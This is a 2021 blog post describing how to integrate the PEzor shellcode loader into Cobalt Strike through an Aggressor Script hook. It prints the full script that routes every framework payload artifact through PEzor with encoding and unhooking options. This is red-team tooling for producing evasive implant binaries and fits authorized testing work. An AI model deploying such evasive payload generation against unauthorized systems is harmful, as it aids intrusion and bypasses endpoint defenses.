

_**Feb 17, 2021**_

# Generating Custom Cobalt Strike Artifacts with PEzor

Let's continue our journey with [Cobalt Strike](https://www.cobaltstrike.com/) and [PEzor](https://github.com/phra/PEzor) by integrating it via [Aggressor Scripts' Hooks](https://www.cobaltstrike.com/aggressor-script/hooks.html) in order to generate custom artifacts that will be seamlessy used by the framework when generating payloads on the fly.



## Motivation

When implementing the `execute-inmemory` functionality, described in the [previous post](https://iwantmore.pizza/posts/PEzor2.html), I had to implement a custom [Sleep](http://sleep.dashnine.org/manual/) subroutine to convert the provided executable into a [Reflective DLL](https://github.com/stephenfewer/ReflectiveDLLInjection) or a .NET assembly.
But wouldn't be nice if we can reuse the same mechanism in order to build custom artifacts used by built-in and post-exploitation modules?

## Aggressor Scripts' Hooks

The Cobalt Strike framework exposes APIs to developers for integrating custom, external tooling within its payload generation flow.
In particular, we are interested in the [EXECUTABLE_ARTIFACT_GENERATOR](https://www.cobaltstrike.com/aggressor-script/hooks.html#EXECUTABLE_ARTIFACT_GENERATOR) hook since we want to customize binary artifacts generated by the framework when executing post-exploitation modules.
By overriding the default internal behaviour, we are able to customize the artifacts in a completely trasparent way so that existing aggressor scripts using the [artifact_payload](https://www.cobaltstrike.com/aggressor-script/functions.html#artifact_payload) and [artifact_stager](https://www.cobaltstrike.com/aggressor-script/functions.html#artifact_stager) functions will continue to work as expected while benefiting of functionalities provided by external tooling.

## Source Code

By checking out the source of the official [Artifact Kit](https://www.cobaltstrike.com/help-artifact-kit), we can understand how to override the default behaviour by declaring the [EXECUTABLE_ARTIFACT_GENERATOR](https://www.cobaltstrike.com/aggressor-script/hooks.html#EXECUTABLE_ARTIFACT_GENERATOR) hook.
The framework is invoking the code associated with the hook by passing in two arguments:

- `$1` - the filename of one of the default artifacts' templates to hint about the desired format
    - `artifact32big.dll`
    - `artifact32.dll`
    - `artifact32big.exe`
    - `artifact32.exe`
    - `artifact32svcbig.exe`
    - `artifact32svc.exe`
    - `artifact64big.x64.dll`
    - `artifact64big.exe`
    - `artifact64.exe`
    - `artifact64svcbig.exe`
    - `artifact64svc.exe`
    - `artifact64.x64.dll`
- `$2` - the shellcode to be executed by the generated artifact

Since we are integrating a fully featured shellcode loader that implements all the required output formats of the framework, we can entirely skip using the official [Artifact Kit](https://www.cobaltstrike.com/help-artifact-kit) by using our own templates. (_in this case the ones shipped with PEzor_)

Here's the main source code of the hook:

```perl
include(script_resource("utils.cna"));
include(script_resource("PEzor.cna"));

# Artifact Kit Integration Script

# Windows Executables and DLLs
#
# Arguments
# 	$1 = artifact file (e.g., artifact32.exe)
# 	$2 = shellcode
# Return 
#	our generated artifact
set EXECUTABLE_ARTIFACT_GENERATOR {
	local('$opts $format $payload $resource $tmpfile');

	($resource, $payload) = @_;

	$tmpfile = get_random_temp_filename();
	write_file($tmpfile, $payload);
	$opts = "-sgn -unhook";

	if ($resource eq "artifact32big.dll") {
		$format = "-32 -format=dll";
	} else if ($resource eq "artifact32.dll") {
		$format = "-32 -format=dll";
    } else if ($resource eq "artifact32big.exe") {
		$format = "-32 -format=exe";
	} else if ($resource eq "artifact32.exe") {
		$format = "-32 -format=exe";
	} else if ($resource eq "artifact32svcbig.exe") {
		$format = "-32 -format=service-exe";
	} else if ($resource eq "artifact32svc.exe") {
		$format = "-32 -format=service-exe";
	} else if ($resource eq "artifact64big.exe") {
		$format = "-64 -format=exe";
	} else if ($resource eq "artifact64big.x64.dll") {
		$format = "-64 -format=dll";
	} else if ($resource eq "artifact64.exe") {
		$format = "-64 -format=exe";
	} else if ($resource eq "artifact64svcbig.exe") {
		$format = "-64 -format=service-exe";
	} else if ($resource eq "artifact64svc.exe") {
		$format = "-64 -format=service-exe";
	} else if ($resource eq "artifact64.x64.dll") {
		$format = "-64 -format=dll";
	}

	return read_file(execute_PEzor("$format $opts $tmpfile"));
}
```

As we can see from the source, we are mapping the filenames used internally to PEzor command line options in order to generate the artifact in the appropriate output format. 
The complete, updated aggressor scripts can be found in the [/aggressor](https://github.com/phra/PEzor/tree/master/aggressor) folder on the PEzor repository.
